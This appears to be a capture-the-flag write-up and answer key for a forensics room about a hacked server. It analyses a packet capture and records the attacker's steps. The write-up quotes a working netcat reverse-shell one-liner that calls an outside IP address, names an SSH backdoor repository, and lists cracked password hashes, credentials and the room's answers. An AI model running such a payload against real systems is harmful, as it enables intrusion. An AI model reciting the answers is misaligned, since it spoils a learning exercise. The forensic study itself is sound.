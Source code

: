 ## Overpass2Hacked

### overpass2hacked.pcap

### Task 1
```
 1. What was the URL of the page they used to upload a reverse shell? 
 => /development/
```

```
 2. What payload did the attacker use to gain access?
 => exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")
```

```
3. What password did the attacker use to privesc?
=> whenevernoteartinstant
```

```
4. How did the attacker establish persistence?
=> https://github.com/NinjaJc01/ssh-backdoor
```

```
5. Using the fasttrack wordlist, how many of the system passwords were crackable?
=> 4
```

```
$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:secuirty3
$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:secret12
$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:abcd123
$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:1qaz2wsx
```

### Task 2
```
1.  What's the default hash for the backdoor? 
=> bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
```

```
2. What's the hardcoded salt for the backdoor?
=> 1c362db832f3f864c8c2fe05f2002a05
```

```
3. What was the hash that the attacker used? - go back to the PCAP for this!
=> 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

#### Hash : 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05

```
4. Crack the hash using rockyou and a cracking tool of your choice. What's the password?
=> november16
```

### Task 3
```
1. The attacker defaced the website. What message did they leave as a heading? 
=> H4ck3d by CooctusClan
```

```
2. What's the user flag?
=> 
```

```
3. What's the root flag?
=> 
```
### Username : james
### PAssword : whenevernoteartinstant

### SSH Backdoor : 0.0.0.0:2222